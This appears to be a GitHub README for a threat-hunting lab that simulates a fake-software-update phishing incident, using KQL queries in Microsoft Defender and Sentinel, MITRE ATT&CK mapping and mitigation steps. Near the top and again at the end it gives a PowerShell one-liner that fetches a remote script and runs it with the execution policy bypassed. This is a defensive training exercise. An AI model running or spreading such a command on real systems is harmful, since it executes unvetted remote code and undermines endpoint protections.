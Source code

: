 

# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/e9d2fd77-dc9f-4faa-a735-925e1d3a25f0" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **PowerShell Payload (POC)**  

 
📥 **The PowerShell Payload**
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1' -OutFile 'C:\ProgramData\phishingFakeSoftwareUpdate.ps1'; cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\phishingFakeSoftwareUpdate.ps1
```

https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/ae028dcd-fe4d-420a-94a3-c68dd922c05b)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/1fafdb38-ba32-4b29-b86f-dbb693dbfc0e)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activities.  
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing mimicking IT with a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "tphish"
| where FileName endswith "ps1"
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/0f60aaaa-fc7c-456e-8680-5a2a3d7ed5db)
---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let VMName = "tphish";
let specificTime = datetime(2025-01-26T19:01:29.0367754Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where DeviceName == VMName
| order by Timestamp desc
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/31b64c99-ad4f-48c1-b89f-ff5a34d5962f)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1" or ProcessCommandLine contains "Add-Type -AssemblyName PresentationFramework"
| extend Timestamp = Timestamp, InitiatingProcessAccountName = InitiatingProcessAccountName
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/31820b28-e89e-4e42-9ea5-24060e2a7508)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/f41a1d4e-246e-4ca1-9053-5a0630777595)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTPs**:  
  - [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  

---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

### 📥**PowerShell Payload (POC)**  

Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/TrevinoParker7/Powershell-test-payload-harmless/refs/heads/main/phishingFakeSoftwareUpdate.ps1' -OutFile 'C:\programdata\phishingFakeSoftwareUpdate.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\phishingFakeSoftwareUpdate.ps1
```

https://github.com/TrevinoParker7/Powershell-test-payload-harmless/blob/main/phishingFakeSoftwareUpdate.ps1

---
